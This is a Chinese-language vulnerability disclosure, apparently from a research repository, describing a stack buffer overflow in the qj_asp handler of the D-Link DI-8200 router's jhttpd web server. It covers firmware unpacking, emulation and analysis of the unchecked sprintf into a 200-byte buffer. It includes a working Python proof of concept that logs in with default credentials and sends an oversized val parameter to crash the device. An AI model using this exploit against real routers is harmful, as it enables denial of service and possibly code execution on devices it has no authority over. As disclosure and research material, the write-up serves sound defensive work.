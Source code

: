 # D-Link DI-8200栈溢出漏洞

## 固件提取与模拟

获取DI-8200路由器固件，使用binwalk对固件进行分析解包，提取文件系统：

```shell
binwalk -Me DI_8200-16.07.26A1.trx
```

![](pic\p1.png)

使用FirmAE模拟固件运行：

```shell
sudo ./run.sh -d aa ../CVE/DI_8200-16.07.26A1.trx
```

![](pic\p3.png)

## 漏洞分析

提取固件文件系统，在\usr\sbin\jhttpd文件的qj_asp函数中存在栈溢出漏洞：

![](pic\p2.png)

qj_asp函数属于jhttpd内部实现的用于处理qj.asp页面参数的函数，登录路由器后可以通过http://\<ip\>/qj.asp访问，同时通过val参数可以传入任意值。val参数传入的值会通过httpd_get_parm函数获取到，随后获取到的值将通过sprintf函数格式化赋值到栈变量v9中。

![](pic\p4.png)

变量v9是一个长度为200个字节的字符数组，由于val参数的值可以通过前端传入的参数进行控制且在格式化赋值时并没有对该参数变量进行检查和过滤，因此可以通过控制val参数的值使得程序造成栈溢出，从而可以造成拒绝服务甚至命令执行。

![](pic\p5.png)

## 漏洞验证

poc:

```python
import requests

s = requests.session()
url = "http://192.168.0.1"
headers = {
    "User-Agent": "Mozilla/5.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "close",
    "Upgrade-Insecure-Requests": "1"
}
data = {"user": "admin", "password": "admin"}
s.post(f"{url}/login.cgi", headers={**headers, "Content-Type": "application/x-www-form-urlencoded", "Origin": url, "Referer": f"{url}/login.html"}, data=data)
p = b'a' * 0x500
r = s.get(f"{url}/qj.asp?val={p}", headers=headers)
print(r.text)
```

执行poc之前，路由器正常访问：

![](pic\p6.png)

执行poc，将造成栈溢出，导致路由器崩溃，从而实现拒绝服务攻击：

![](pic\p7.png)

![](pic\p8.png)

